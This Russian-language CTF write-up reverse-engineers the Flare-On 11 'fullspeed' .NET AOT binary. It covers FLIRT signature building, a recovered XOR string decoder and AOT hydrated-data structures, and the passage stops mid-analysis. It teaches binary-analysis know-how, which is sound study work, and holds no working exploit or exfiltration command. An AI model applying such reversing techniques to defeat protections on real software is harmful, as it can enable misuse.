


# Описание

Всем привет! В данной статье я хотел бы поделиться своим подходом в решении седьмого задания (**fullspeed**) из **CTF** **Flare-On 11 2024**. Несмотря на то, что я не успел завершить его в рамках соревнования, интерес к заданию остался, и я решил довести начатое до конца и разобраться в деталях.


При изучении опубликованных решений – как от самой команды [Flare Team](https://services.google.com/fh/files/misc/flare-on11-challenge7-fullspeed.pdf), так и от других участников ([Salt-Mc](https://github.com/Salt-Mc/Flare-On/tree/main/FlareOn11/Ch07), [0xdf](https://0xdf.gitlab.io/flare-on-2024/fullspeed), [digitalwhisper](https://digitalwhisper.co.il/files/Zines/0xA8/DigitalWhisper168.pdf), [hasherezade](https://hshrzd.wordpress.com/2024/12/09/flare-on-11-task-7/),  [Yousuf Alhajri](https://blog.omroot.io/flareon11-challenge-7-fullspeed/), [SuperFashi](https://gmo-cybersecurity.com/blog/flare-on-11-write-up/)) я заметил, что некоторые аспекты, можно раскрыть подробнее. 
На этой основе появилась идея представить свой взгляд на решение, поэтапно разобрать ключевые моменты, а также поделиться собственными наработками, включая восстановленный код исполняемого файла [**fullspeed.exe**](https://github.com/maxgpt03/flareon/blob/main/2024/task7/src/client/main_client.cs).

# Задание
Текст задания:
```
Has this all been far too easy? Where's the math? Where's the science? Where's the, I don't know.... cryptography? Well we don't know about any of that, but here is a little .NET binary to chew on while you discuss career changes with your life coach.
```

В прилагаемом файловом архиве **fullspeed.7z** содержатся следующие файлы:

| Имя файла      | Размер, байт | Хеш сумму, SHA1                          |
| -------------- | ------------ | ---------------------------------------- |
| capture.pcapng | 4660         | FDB8BBA0C73729A014B703234487FAB3E1BE635D |
| fullspeed.exe  | 2031616      | 168F972965A3809B20D22900E0FD75BC871F09B0 |

# Информация о файлах
## capture.pcapng
Файл **capture.pcapng** – это дамп сетевого трафика. В нем содержатся одна сетевая сессия (40 пакетов), между клиентом **192.168.56.101** и сервером **192.168.56.103**. Соединение устанавливается по протоколу **TCP**, прослушиваемый порт на сервере **31337**.
<figure style="text-align: center;">
  
  <figcaption>Файл <strong>capture.pcapng</strong></figcaption>
</figure>

Также приведём метаданные из заголовка дампа трафика (**SectionHeaderBlock** – начальный блок файла .pcapng, содержащий общую информацию о захвате):
```
Оборудование: 12th Gen Intel(R) Core(TM) i7-12800H (with SSE4.2)
ОС: 64-bit Windows 10 (22H2), build 19045
Приложение: Dumpcap (Wireshark) 4.2.5 (v4.2.5-0-g4aa814ac25a1)
```
<figure style="text-align: center;">
  
  <figcaption>Метаданные блока <strong>SectionHeaderBlock</strong></figcaption>
</figure>

## fullspeed.exe
**fullspeed.exe** – это исполняемый файл. С помощью [DiE (Detect It Easy)](https://github.com/horsicq/Detect-It-Easy) получим информацию о его сборке:

<figure style="text-align: center;">
  
  <figcaption>Информация о файле <strong>fullspeed.exe</strong></figcaption>
</figure>

```
Операционная система: Windows(Vista)[AMD64, 64-битный, Консоль]
Линковщик: Microsoft Linker(14.36.33811)
Компилятор: Microsoft Visual C/C++(19.36.33731)[C++]
Язык: C++
Библиотека: .NET Core(v6.0)[AOT]
Инструмент: Visual Studio(2022, v17.6)
```

Особое внимание стоит обратить на строку **.NET Core(v6.0)\[AOT\]** которая говорит о том, что используется технология **Ahead-of-Time** компиляции (**.NET Native AOT**), при которой код компилируется напрямую в машинные команды целевой платформы, а **Just-In-Time** и большинство элементов среды выполнения исключаются. 
Выраженными особенностями данного варианта компиляции являются:
+ наличие секции **.managed** – содержит машинный код, работающий в управляемом окружении, где память контролируется сборщиком мусора;
+ наличие секции **hydrated** – содержит сериализованные данные, которые будут восстановлены в процессе выполнения (например, метаданные, ссылки, ресурсы);
+ экспортируемая функция **DotNetRuntimeDebugHeader**.

Пример вывода утилиты **dumpbin.exe**:
```cmd
dumpbin.exe fullspeed.exe
Microsoft (R) COFF/PE Dumper Version 14.43.34808.0
Copyright (C) Microsoft Corporation.  All rights reserved.
Dump of file fullspeed.exe
File Type: EXECUTABLE IMAGE
  Summary:
    10000 .data
    D2000 .managed
	12000 .pdata
	A6000 .rdata
	1000 .reloc
    1000 .rsrc
    66000 .text
    59000 hydrated
```

Подробнее почитать про **AOT** можно в статьях **Michal Strehovsky** [Reverse engineering natively-compiled .NET apps](https://migeel.sk/blog/2023/09/15/reverse-engineering-natively-compiled-dotnet-apps/) и **HarfangLab** [An introduction to reverse engineering .NET AOT applications](https://harfanglab.io/insidethelab/reverse-engineering-ida-pro-aot-net/).

Для идентификации **AOT-файлов** можно воспользоваться **YARA-правилом** из статьи **HarfangLab**:
```yara
import "pe"
rule NET_AOT {
	meta:
		description = "Detects .NET binaries compiled ahead of time (AOT)"
		author = "HarfangLab"
		distribution = "TLP:WHITE"
		version = "1.0"
		last_modified = "2024-01-08"
		hash = "5b922fc7e8d308a15631650549bdb00c"
	condition:
		pe.is_pe and pe.number_of_exports == 1 and
		pe.exports("DotNetRuntimeDebugHeader") and
		pe.section_index(".managed") >= 0
}
```

<figure style="text-align: center;">
  
  <figcaption>Результат анализа с использованием утилиты <strong>Loki</strong></figcaption>
</figure>

```
FILE: fullspeed.exe SCORE: 70 TYPE: EXE SIZE: 2031616
FIRST_BYTES: 4d5a90000300000004000000ffff0000b8000000 / <filter object at 0x0000022BA31A7D60>
MD5: 32df29c32770ae4c5b2814ecc589a003
SHA1: 168f972965a3809b20d22900e0fd75bc871f09b0
SHA256: 01b6d660cf72bf04cf75f7cbb4ffaffa7e2a44a48a82d3da50bbb56fe634c69e
REASON_1: Yara Rule MATCH: NET_AOT SUBSCORE: 70
DESCRIPTION: Detects .NET binaries compiled ahead of time (AOT) REF: - AUTHOR: HarfangLab
```

# Исследование fullspeed.exe
При анализе функциональности исполняемых файлов не следует игнорировать различные методы исследования и их сочетания. Комбинированное использование статического и динамического анализа позволяет преодолеть наиболее запутанные этапы анализа файла.

При запуске **fullspeed.exe** осуществляются попытки установить TCP-соединение с хостом 192.168.56.103 на порт 31337.
<figure style="text-align: center;">
	
	<figcaption> Запуск исполняемого файла <strong>fullspeed.exe</strong></figcaption>
</figure>

В результате открытия исполняемого файла **fullspeed.exe** в **IDA** выявляется порядка 6000 функций. Большое количество функций в исполняемом файле связано с тем, что при **AOT-компиляции** приложение **.NET** превращается в автономный нативный исполняемый файл, включающий не только собственный код, но и все необходимые компоненты среды выполнения и сторонние библиотеки в виде нативного кода.

При первом запуске **IDA** будут распознаны только стандартные **Windows** **API-функции**, доступные через таблицу импорта.
<figure style="text-align: center;">
	
	<figcaption> Открытие файла <strong>fullspeed.exe</strong> в <strong>IDA</strong></figcaption>
</figure>

Небольшое количество распознанных функций связано с тем, что в **IDA** нет сигнатур **Fast Library Identification and Recognition Technology** (**FLIRT**) для **.NET** функций, скомпилированных с использованием технологии **AOT**.

Создание сигнатур **FLIRT** для всевозможных вариаций одних и тех же функций под разнообразные операционные системы и архитектуры не оправдано, даже одна и та же функция может иметь различное представление в машинном коде в зависимости от версии **.NET**, параметров оптимизации компилятора, целевой архитектуры и других факторов. Это делает создание универсальных **FLIRT-сигнатур** для **AOT-компилированных** **.NET** приложений крайне затруднительным.

## Создание FLIRT сигнатур
С целью исключения необходимости анализа библиотечных функций вручную необходимо добавить такие сигнатуры в **IDA**, которые позволят распознать как можно большее количество статически слинкованных библиотечных и системных функций.

Для реализации данного подхода необходимо:
+ Написать и скомпилировать программу, имеющую собственную минимальную среду исполнения для управления выполнением кода. В таком случае будет достаточно создать короткую программу, например, **«Hello, world!»**.
+ В ранее созданной программе использовать библиотечные функции или отдельно скомпилировать используемые библиотеки. 

Далее скомпилированные файлы вместе с отладочными данными **Program Database** (файл **PDB** содержит информацию об отладочных символах – имена функций, переменных, структуры и пр.), необходимо добавить в **IDA**, в результате чего сигнатуры функций будут сопоставлены с их названиями и полученный результат будет сохранен в файле **IDA Database** (**pdb**).
Следующим шагом является получение файла сигнатур **FLIRT**. Есть несколько вариантов как это можно сделать:
+ Используя скрипт [idb2pat](https://github.com/mandiant/flare-ida/blob/master/python/flare/idb2pat.py) от [FireEye](https://cloud.google.com/blog/topics/threat-intelligence/flare-ida-pro-script/) получаем файл шаблона **IDA Pattern File** (расширение файла **.pat**) содержащий информацию о сигнатурах и названиях функций в текстовом виде. Последний шаг – перевод текстового файла **.pat** в двоичный вид **.sig** с помощью утилиты **sigmake** (на текущий момент распространяется в составе набора утилит **Fast Library Acquisition for Identification and Recognition** (**FLAIR**), которые можно скачать через личный кабинет на **my.hex-rays.com**).
+ Начиная с версии **IDA Professional 8.4** появился встроенный плагин [makesig](https://docs.hex-rays.com/release-notes/8_4#standard-plugins), интегрированный в **GUI IDA** и позволяющий сделать **FLIRT** сигнатуры сразу из **idb** в несколько кликов.
<figure style="text-align: center;">
	
	<figcaption>Плагин <strong>makesig</strong> интегрированный в <strong>GUI IDA</strong></figcaption>
</figure>

## Определение используемых библиотек
Для примерного представления какие функции используются в **fullspeed.exe** можно выполнить анализ строк, присутствующих в файле, чтобы выявить упоминания пространств имён, типов или сборок системных и сторонних библиотек.
В ходе анализа были обнаружены строки, соответствующие пространствам имён **System.Security.Cryptography**, **System.Net.Sockets**, **BouncyCastle.Cryptography**.
Видно, что используются системные библиотеки для работы с криптографией и сетевыми сокетами, а также библиотека **BouncyCastle**. 
**BouncyCastle** – проект с открытым исходным кодом, который реализует широкий спектр криптографических функций и поддерживает различные криптографические стандарты. Библиотека доступна на нескольких языках программирования, включая **Java** и **C#**. 
При осуществлении поиска информации в файле по строке **BouncyCastle** можно найти сведения об используемой версии библиотеки и первых 10 символах хеша **SHA1** коммита репозитория [**BouncyCastle**](https://github.com/bcgit/bc-csharp/commit/83ebf4a8054955bb4b55e081fb6a755ea8c7bb92) (**2.4.0+83ebf4a805**).

Рядом с информацией о **BouncyCastle** можно обнаружить используемую версию и соответствующий хеш коммита репозитория [**.NET Runtime**](https://github.com/dotnet/runtime/commit/087e15321bb712ef6fe8b0ba6f8bd12facf92629) (**8.0.5+087e15321bb712ef6fe8b0ba6f8bd12facf92629**).
<figure style="text-align: center;">
	
	<figcaption>Информация о <strong>BouncyCastle</strong> и <strong>.NET Runtime</strong></figcaption>
</figure>

## Написание программы
Для удобства создадим решение (**elliptic_curve**), в рамках которого будут два проекта: **client** и **server**. В проекте **client** будем воссоздавать логику работы программы **fullspeed.exe**, а в **server** соответственно серверную часть.
<figure style="text-align: center;">
	
	<figcaption>Создание консольного приложения</figcaption>
</figure>

В следующем окне выберем параметр **«Включить публикацию AOT native»**:
<figure style="text-align: center;">
	
	<figcaption>Использовать вариант компиляции <strong>AOT</strong></figcaption>
</figure>

При включении данной опции в проекте **client.csproj** будут следующие параметры:
```xml
<Project Sdk="Microsoft.NET.Sdk">
	<PropertyGroup>
		<OutputType>Exe</OutputType>
		<TargetFramework>net8.0</TargetFramework>
		<ImplicitUsings>enable</ImplicitUsings>
		<Nullable>enable</Nullable>
		<PublishAot>true</PublishAot>
		<InvariantGlobalization>true</InvariantGlobalization>
	</PropertyGroup>
</Project>
```

Без включённой **AOT-компиляции** файл проекта **client.csproj** будет выглядеть следующим образом:
```xml
<Project Sdk="Microsoft.NET.Sdk">
	<PropertyGroup>
		<OutputType>Exe</OutputType>
		<TargetFramework>net8.0</TargetFramework>
		<ImplicitUsings>enable</ImplicitUsings>
		<Nullable>enable</Nullable>
	</PropertyGroup>
</Project>
```

По умолчанию отладочные символы (**PDB**) создаются автоматически. Для явного указания этого поведения можно использовать параметр `<DebugType>full</DebugType>`.
Далее к нашему проекту добавим библиотеку [**BouncyCastle**](https://www.nuget.org/packages/BouncyCastle.Cryptography) версии 2.4.0 через пакетный менеджер **NuGet**:
```cmd
dotnet add package BouncyCastle.Cryptography --version 2.4.0
```

Для начала реализуем простейший пример использования библиотеки **BouncyCastle** и установим **TCP-соединение**:
```cs
using System.Net.Sockets;
using Org.BouncyCastle.Math;

namespace client
{
    internal class client
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello, World!");

            byte[] byteArray = { 0x01, 0x02, 0x03, 0x04 };
            BigInteger bigIntP = new BigInteger(byteArray);
            Console.WriteLine(bigIntP);

            const string strIP = "127.0.0.1";
            const int port = 31337;

            TcpClient tcpClient;
            NetworkStream networkStream;

            tcpClient = new TcpClient(strIP, port);
            networkStream = tcpClient.GetStream();
        }
    }
}
```

Компиляция проекта с **AOT**:
```
dotnet publish -c Release
```

При открытии скомпилированного файла **IDA Professional 9.0** будет определено порядка 4783 функций, а также присутствуют имена многих из них. Например:
```cpp
__int64 client_client_client__Main()
{
  __int64 v0; // rbx
  __int64 v1; // rsi
  __int64 v2; // rbx
  System_Console_System_Console__WriteLine_12(&_Str_Hello__World__98B83E2E14759B86F964E17964E7B706E21EA7DEEA1267ABCE2F3FFB95A81BBC);
  v0 = RhpNewArray(&__Array_UInt8_::`vftable', 4);
  *(_DWORD *)(v0 + 16) = client__PrivateImplementationDetails____9F64A747E1B97F131FABB6B447296C9B6F0201E79FB3C5356E6C77E89B6A806A;
  v1 = RhpNewFast(&BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger::`vftable');
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_2(v1, v0);
  System_Console_System_Console__WriteLine_11(v1);
  v2 = RhpNewFinalizable(&System_Net_Sockets_System_Net_Sockets_TcpClient::`vftable');
  System_Net_Sockets_System_Net_Sockets_TcpClient___ctor_2(
    v2,
    &_Str__127_0_0_1_A65017B383AFE1D4C5D31A1A299B19102BA29D57D8A1D13F96EF19D7A3A64B7C,
    31337);
  return System_Net_Sockets_System_Net_Sockets_TcpClient__GetStream(v2);
}
```

На основание полученного файла **idb** при создание сигнатур с помощью встроенного плагина **makesig** будет получено 4185 сигнатур (файл **.pat**).

После добавления этих сигнатур в проект **IDA**, с исследуемым файлом **fullspeed.exe**, можно заметить, что у множества функций появились имена, включая функцию **__managed__Main()**, которая содержит код среды выполнения:
<figure style="text-align: center;">
	
	<figcaption>Результаты применения пользовательских сигнатур в анализе бинарного файла</figcaption>
</figure>

В результате применения сигнатур было распознано 3355 функций:
<figure style="text-align: center;">
	
	<figcaption>Информация о количестве распознанных функций</figcaption>
</figure>

В дальнейшем, при уточнении функционала, мы сможем повысить это число до 4400 распознанных функций.

## Компиляция библиотеки BouncyCastle
Задача по распознанию библиотечных функций существенно упрощаются благодаря тому, что библиотека **BouncyCastle** имеет открытый исходный код и скомпилировать ее не составляет сложности.

Для того, чтобы распознать как можно больше используемых функций из библиотеки **BouncyCastle** стоит скомпилировать код соответствующий версии используемой в **fullspeed.exe** – **2.4.0** и коммиту **83ebf4a805**:
```cmd
git clone https://github.com/bcgit/bc-csharp
cd bc-csharp
git checkout 83ebf4a805
```

После перехода на нужный коммит необходимо изменить параметры проектов **BouncyCastle.Crypto.csproj** и **BouncyCastle.Crypto.Tests.csproj**. В частности, строку:
```xml
<TargetFrameworks>net6.0;netstandard2.0;net461</TargetFrameworks>
```

следует заменить на:
```xml
<TargetFrameworks>net8.0</TargetFrameworks>
<PublishAot>true</PublishAot>
```

Перейдём в директорию проекта и соберём его с включённой **AOT-компиляцией**. Пример для **BouncyCastle.Crypto.csproj**:
```cmd
cd bc-csharp\crypto\src
dotnet publish -c Release --self-contained -r win-x64 -f net8.0
```

Аналогично для **BouncyCastle.Crypto.Tests.csproj**:
```cmd
cd bc-csharp\crypto\test
dotnet publish -c Release --self-contained -r win-x64 -f net8.0
```

В результате чего будет создано:
+ 3655 сигнатур **BouncyCastle.Cryptography.pat**
+ 32202 сигнатур **BouncyCastle.Crypto.Tests.pat** 

После добавления файлов сигнатур **BouncyCastle** определяется 4476 функций: 
<figure style="text-align: center;">
	
	<figcaption>Результат распознания функций после добавления сигнатур библиотеки <strong>BouncyCastle</strong></figcaption>
</figure>

## Подходы исследования
При анализе **.NET-приложений**, собранных с помощью **AOT-компиляции**, удалось выделить ряд эффективных методик, существенно облегчающих восстановление логики работы программы. Эти техники были выработаны экспериментально в ходе реверс-инжиниринга, начнём их описание с разборов первых функций в исследуемом файле.
После того как эти методы будут описаны, в дальнейшем основное внимание будет уделяться самому функционалу приложения – без подробного пояснения способов получения каждого конкретного результата, за исключением нетривиальных или показательных случаев.

### Исследование функции sub_140108AC0()
После завершения инициализации среды выполнения **.NET** управление передаётся в функцию **sub_140108AC0()**, которая содержит основную часть логики программы:
<figure style="text-align: center;">
	
	<figcaption>Функция <strong>sub_140108AC0()</strong></figcaption>
</figure>

В самом начале этой функции (строка 24) вызывается **sub_140001ED4()**. Анализ её тела и вызываемых подфункций показывает, что она отвечает за запуск статического конструктора определённого класса:
<figure style="text-align: center;">
	
	<figcaption>Код функции <strong>sub_140001ED4()</strong></figcaption>
</figure>

```cpp
__int64 sub_140001ED4()
{
  __int64 result;
  result = qword_140238A68;
  if ( qword_140158FB8 )
    return S_P_CoreLib_System_Runtime_CompilerServices_ClassConstructorRunner__CheckStaticClassConstructionReturnGCStaticBase(
             &qword_140158FB8,
             qword_140238A68);
  return result;
}
```

Этот вызов использует метод **ClassConstructorRunner.CheckStaticClassConstructionReturnGCStaticBase()**, который выполняет статическую инициализацию класса, если она ещё не была произведена.
По перекрёстным ссылкам видно, что **sub_140001ED4()** вызывается примерно в шести местах:
<figure style="text-align: center;">
	
	<figcaption>Все ссылки на функцию <strong>sub_140001ED4()</strong></figcaption>
</figure>

В результате выполнения **CheckStaticClassConstructionReturnGCStaticBase** управление передаётся в **sub_140107BC0()**, которая, судя по всему, представляет собой статический конструктор класса и содержит инициализацию его параметров. Данный факт указывает на наличие пользовательского класса с полями и методами, участвующими в криптографических операциях.

### Описание функция sub_140107BC0()
Рассмотрим содержимое конструктора **sub_140107BC0()**:
<figure style="text-align: center;">
	
	<figcaption>Код функции <strong>sub_140107BC0()</strong></figcaption>
</figure>

В его начале можно увидеть обращения к двум функциям среды выполнения:
Для начала стоит рассказать про две функции рантайма:
+ **RhpNewFast(EEType* pEEType)** – быстрое выделение памяти под объект заданного типа **EEType**. Используется рантаймом .NET для создания экземпляров объектов;
+ **RhpAssignRefAVLocation(Object\*\* dst, Object* src)** – присваивает ссылку на объект **src** по адресу **dst**, корректно обновляя ссылки в рамках сборщика мусора.

Проанализируем использование функции **RhpAssignRefAVLocation**:
```cpp
RhpAssignRefAVLocation(
	(unsigned __int64 *)class_myEC + 1, (unsigned __int64)ellipticCurve);
RhpAssignRefAVLocation(
	(unsigned __int64 *)class_myEC_copy + 2, ecPointGeneratorPoint);
RhpAssignRefAVLocation(
	(unsigned __int64 *)class_myEC_copy + 3, (unsigned __int64)SecureRandom);
```

Исходя из данного вывода можно сказать, что имеется некоторая структура, которая заполняется по мере инициализации переменных. Можно предположить, что осуществляется сохранение ссылок на объекты в переменных класса.

### Анализ функции sub_140107D80()
Перейдем к следующей функции **sub_140107D80()** которая повторяется несколько раз в теле конструктора **sub_140107BC0()** (строки: 20, 23, 26, 29, 32). По её внутреннему устройству видно, что она занимается расшифровкой данных.
<figure style="text-align: center;">
	
	<figcaption>Код функции <strong>sub_140107D80()</strong></figcaption>
</figure>

Данную функцию **sub_140107D80()** можно преобразовать к следующему виду:
```cs
public static string DecodeEncryptData(string inStr)
{
    byte[] bArray = Convert.FromHexString(inStr);

    byte bKey = 0;
    int intIteration = 0;
    int intByteArrayLength = bArray.Length;

    if (intByteArrayLength > 0)
    {
        do
        {
            bKey = (byte)(13 * bKey + 0x25);
            bArray[intIteration++] ^= bKey;
        }
        while (intByteArrayLength > intIteration);
    }
    return Encoding.UTF8.GetString(bArray);
}
```

При первом вызове в качестве аргумента передаётся указатель **unk_14013FC68**. При статическом анализе и переходе по этому адресу становится видно, что он указывает на секцию **hydrated**, но содержимого по этому адресу не наблюдается:
```
hydrated:000000014013FC68 unk_14013FC68 db  ? ;DATA XREF: client_myEC___cctor+1B↑o
hydrated:000000014013FC69               db  ? ;
hydrated:000000014013FC6A               db  ? ;
hydrated:000000014013FC6B               db  ? ;
hydrated:000000014013FC6C               db  ? ;
```

Это особенность **AOT-сборки** **.NET**, где данные могут быть размещены в участках памяти, инициализируемых динамически в момент запуска.

### Гидратированные данные в .NET Native AOT
#### Что такое секция hydrated?
Как уже отмечалось ранее, секция **hydrated** инициализируется во время выполнения программы. Данные, содержащиеся в ней, находятся в упакованном (или сериализованном) виде и требуют «дегидратации» для восстановления исходных структур. Эта секция может включать динамически загружаемые объекты, которые создаются как при старте приложения, так и по необходимости в процессе работы. Подобные данные, как правило, хранятся в сжатом виде с целью минимизации размера исполняемого файла и как следствие приводит к затруднению статического анализа.

>[!Источники информации]
>Про гидратированные данные можно почитать: 
>+ **Michal Strehovsky** [Add support for dehydrated runtime data structures](https://github.com/dotnet/runtime/pull/77884)
>+ **Michal Strehovsky** [Reverse engineering natively-compiled .NET apps](https://migeel.sk/blog/2023/09/15/reverse-engineering-natively-compiled-dotnet-apps/)
>+ **Washi1337** [Recovering Metadata from .NET Native AOT Binaries](https://blog.washi.dev/posts/recovering-nativeaot-metadata/)

#### Как получить доступ к данным?
Как вообще можно получить доступ к значениям переменных из секции **hydrated**?
Очевидно, что имеется некоторый функционал в коде среды выполнения, отвечающий за дегидратацию данных. Интересным способом является запуск функций отвечающих за дегидратацию данных в эмуляторе **Ghidra** как это сделал [washi1337](https://washi1337.github.io/ctf-writeups/writeups/flare-on/2024/7/), но такого рода подход стоит отдельной статьи.
Однако есть более простой способ для данного случая – выполнить исполняемый файл **fullspeed.exe** в отладчике и наблюдать за результатом дегидратации:
<figure style="text-align: center;">
	
	<figcaption>Появление данных после дегидратации</figcaption>
</figure>

В результате дегидратации данных была получена следующая область памяти, которую можно представить в виде структуры:
```cpp
struct HydratedStruct {
    MethodTable* vftable_ptr;
    uint64_t length;
    wchar_t first_char;
};
```

Рассмотрим строку, размещённую в памяти, которая закодирована в шестнадцатеричном виде: каждый символ занимает два байта (UTF-16). После удаления нулевых байт получаем следующие данные:
```
463F43CDC15079D91C4AB352F862D545B097C05DC765794A4F5A8BC54828DE86E7D6B7E4657348A9EF3C89711A5F226502E0627B60079931BA7878B6BB4B22A384F20484811BE84E080C73C7E87B4707AD835B1F04236ADED81F4C565839C1C4
```

Чтобы понять, с какими данными мы имеем дело и как определить их тип, вернёмся к проекту **client** из решения **elliptic_curve**.
#### Методические трудности и сигнатуры FLIRT
Рассмотрим фрагмент кода, отвечающий за вывод строки в консоль:
```cs
Console.WriteLine("Hello, World!");
```

При компиляции параметр функции **Console.WriteLine()** будет представлять собой адрес на структуру **HydratedStruct**:
<figure style="text-align: center;">
	
	<figcaption>Хранение строки в AOT-сборке</figcaption>
</figure>

Видно, что **MethodTable** в отладчике будет корректно определяться как тип **String**:
<figure style="text-align: center;">
	
	<figcaption>Отображение структуры <strong>HydratedStruct</strong></figcaption>
</figure>

Посмотрим таблицу виртуальных методов. Если подключены отладочные символы, будет отображаться не только имя типа, но и имена всех виртуальных методов:
<figure style="text-align: center;">
	
	<figcaption>Отображение имён виртуальных методов</figcaption>
</figure>

Рассмотрим структуру **MethodTable** согласно исходному коду [.NET Native AOT Runtime](https://github.com/dotnet/runtime/blob/main/src/coreclr/nativeaot/Runtime/inc/MethodTable.h#L82):
```cpp
struct MethodTable
{
    uint32_t              m_uFlags;
    uint32_t              m_uBaseSize;
    MethodTable*          m_RelatedType;
    uint16_t              m_usNumVtableSlots;
    uint16_t              m_usNumInterfaces;
    uint32_t              m_uHashCode;
};
```

Применим эту структуру к фрагменту памяти:
```
hydrated:00007FF7C2291E18 ??_7String@@6B@ dd 0D0440002h	; m_uFlags
hydrated:00007FF7C2291E1C dd 16h						; m_uBaseSize
hydrated:00007FF7C2291E20 dq offset ??_7Object@@6B@		; m_RelatedType
hydrated:00007FF7C2291E28 dw 3							; m_usNumVtableSlots
hydrated:00007FF7C2291E2A dw 9							; m_usNumInterfaces
hydrated:00007FF7C2291E2C dd 0B74F3361h					; m_uHashCode
```

После заголовочной части структуры следуют три виртуальных метода (количество задано в **m_usNumVtableSlots**):
```
hydrated:00007FF7C2291E30 dq offset String__ToString
hydrated:00007FF7C2291E38 dq offset String__Equals
hydrated:00007FF7C2291E40 dq offset String__GetHashCode
```

Затем – девять интерфейсов, реализуемых этим типом (**m_usNumInterfaces**):
```
hydrated:00007FF7C2291E48 dq offset ??_7S_P_CoreLib_System_IComparable@@6B@
hydrated:00007FF7C2291E50 dq offset ??_7S_P_CoreLib_System_Collections_IEnumerable@@6B@
hydrated:00007FF7C2291E58 dq offset ??_7S_P_CoreLib_System_IConvertible@@6B@
hydrated:00007FF7C2291E60 dq offset ??_7S_P_CoreLib_System_Collections_Generic_IEnumerable_1_Char_@@6B@
hydrated:00007FF7C2291E68 dq offset ??_7S_P_CoreLib_System_IComparable_1_String_@@6B@
hydrated:00007FF7C2291E70 dq offset ??_7S_P_CoreLib_System_IEquatable_1_String_@@6B@
hydrated:00007FF7C2291E78 dq offset ??_7S_P_CoreLib_System_ICloneable@@6B@
hydrated:00007FF7C2291E80 dq offset ??_7S_P_CoreLib_System_IParsable_1_String_@@6B@
hydrated:00007FF7C2291E88 dq offset ??_7S_P_CoreLib_System_ISpanParsable_1_String_@@6B@
```

В конце находятся дополнительные указатели, вероятно – финализатор и данные для оптимизированного представления полей:
```
hydrated:00007FF7C2291E90 dq 9FE140009E4A0h
hydrated:00007FF7C2291E98 dq 7FFA80007F978h
```

Можно отметить, что один и тот же тип данных всегда имеет одинаковое значение **m_uHashCode** (по крайней мере для текущих версии среды **.Net**). Например, для типа **String** оно составляет **0x0B74F3361**. Это значение может быть полезным в случаях, когда невозможно точно определить тип объекта. В такой ситуации **m_uHashCode** можно использовать для определения типа объекта, даже если символьная информация недоступна, сравнивая его с базой известных хэшей.

Несмотря на использование сигнатур **FLIRT**, символические имена таблиц виртуальных методов (например, **dword_7FF633C4F168**) восстановлены не были, как для названия самой таблицы, так и для реализуемых интерфейсов:
<figure style="text-align: center;">
	
	<figcaption>Отсутствие символических имен реализуемых интерфейсов в таблице виртуальных методов</figcaption>
</figure>

